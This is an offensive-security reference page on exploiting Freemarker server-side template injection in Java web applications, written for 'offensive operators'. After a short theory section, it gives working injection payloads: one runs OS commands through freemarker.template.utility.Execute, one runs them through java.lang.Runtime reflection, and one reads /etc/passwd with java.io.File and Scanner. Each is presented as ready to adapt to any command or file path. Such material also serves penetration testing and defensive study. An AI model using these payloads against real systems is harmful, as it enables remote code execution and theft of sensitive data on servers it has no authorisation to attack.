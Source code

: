 ```yaml
---
title: 'Freemarker Exploitation: SSTI Vulnerabilities in Java'
description: Explore Freemarker SSTI for command execution and data access.
keywords:
- Freemarker exploitation
- SSTI vulnerabilities
- Java template injection
- remote code execution
- sensitive file access
---
```


# Freemarker Exploitation

## Context

Freemarker exploitation focuses on leveraging Server-Side Template Injection (SSTI) vulnerabilities within Java applications using the Freemarker template engine. This technique enables offensive operators to execute arbitrary commands and access sensitive files within potentially vulnerable Java web applications. An understanding of general template engine operation, Java class structuring, and remote code execution fundamentals are assumed, along with a basic knowledge of identifying and working with SSTI vulnerabilities.

## Theory

### Freemarker Template Engine Internals

Freemarker is a Java-based template engine prominently used for rendering dynamic web content. Its primary functionality is to process templates containing both presentation logic and placeholders for dynamic content.

A core principle of Freemarker is its ability to access Java objects and invoke methods. This flexibility poses security risks if not properly isolated, allowing untrusted template inputs to instantiate and manipulate Java objects, which can lead to arbitrary code execution.

### Freemarker Injection Attack Surface

The Freemarker injection attack surface primarily involves injecting Freemarker expressions into the template context. This action triggers the execution of potentially malicious code. Developers often assume their template operations are safely sandboxed and isolated from sensitive Java classes, leading to exploitable vulnerabilities.

### Java Object Construction and Dangerous Classes

Freemarker facilitates the instantiation of Java classes using the built-in `?new` function, a feature attackers can misuse. Specifically, exposing `freemarker.template.utility.Execute` allows direct OS command execution. Similarly, utilizing `java.io.File` or `java.lang.Runtime` offers file read capabilities and command execution possibilities, respectively.

### Common Exploitation Primitives

Freemarker's `?new` function is exploited to initialize dangerous classes like `Execute` or `Runtime`. Following the initialization, attackers can invoke functions like `exec()` with parameters they control. Additionally, it's possible to leverage classes such as `java.io.File` and `java.util.Scanner` to read sensitive system files or any files accessible to the application.

## Practice

### Remote Command Execution via freemarker.template.utility.Execute

Execute arbitrary system commands on the server through the `freemarker.template.utility.Execute` class.

```plaintext
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }
```

This payload assigns the `Execute` class to a variable `ex` and runs the `id` command on the server. Replace `id` with any desired OS command.

### Command Execution via java.lang.Runtime

Use Java reflection to execute system commands via the `java.lang.Runtime` class.

```plaintext
${"".getClass().forName("java.lang.Runtime").getRuntime().exec("id")}
```

This payload independently finds the `Runtime` class and invokes the `exec()` function. Replace `id` with any command to execute.

### Sensitive File Read via java.io.File and java.util.Scanner

Access sensitive files using Freemarker to exploit Java's file operation classes.

```plaintext
<#assign file = "java.io.File"?new("/etc/passwd")>
<#assign scanner = "java.util.Scanner"?new(file)>
${scanner.useDelimiter("\\Z").next()}
```

This process allows reading the content of `/etc/passwd`, showcasing sensitive file access. Substitute `/etc/passwd` with any accessible file path to read its contents.

## Tools

- **Burp Suite**
- **curl**